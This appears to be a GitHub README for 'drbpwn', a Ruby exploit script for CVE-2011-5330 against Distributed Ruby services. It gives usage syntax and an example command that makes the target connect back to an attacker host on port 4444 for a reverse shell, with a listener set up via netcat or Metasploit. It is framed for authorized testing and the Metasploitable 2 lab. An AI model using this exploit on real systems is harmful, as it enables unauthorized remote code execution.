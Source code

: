 # drbpwn - CVE-2011-5330 exploit in ruby

## Description
This Ruby script provides a workaround for exploiting Distributed Ruby (DRb) vulnerabilities using instance_eval and syscall methods. It aims to serve as an alternative to the missing Metasploit module for DRb exploitation. While the Metasploit module might reappear in future versions, this script can be utilized in the meantime when other exploits are not readily available.

## Usage
To use the script, follow the syntax below:

```ruby drbpwn.rb <target_host> <target_port> <attacker_host> [<attacker_port>]```

### Arguments
- `<target_host>`: The hostname or IP address of the target machine.
- `<target_port>`: The port number on which the DRb service is running on the target machine.
- `<attacker_host>`: The hostname or IP address of the attacker machine.
- `[<attacker_port>]`: (Optional) The port number on which attacker is listening. Defaults to `4444` if not provided.

- Note: Before running this script, make sure the attacker machine is listening for incoming connections on the designated port using netcat (nc) or Metasploit's multi/handler.

## Example
```ruby drbpwn.rb 192.168.0.100 8787 192.168.0.107```


In this example, the script will attempt to exploit the DRb service running on `192.168.0.100` at port `8787` and connect back to attacker at 192.168.0.107 at port 4444

## Note
Ensure that you have proper authorization before attempting to exploit any system. This script is provided for educational purposes and should only be used in environments where you have explicit permission to do so. Also, this script can be used to exploit the vulnerable service running on the Metasploitable 2 VM on port 8787.
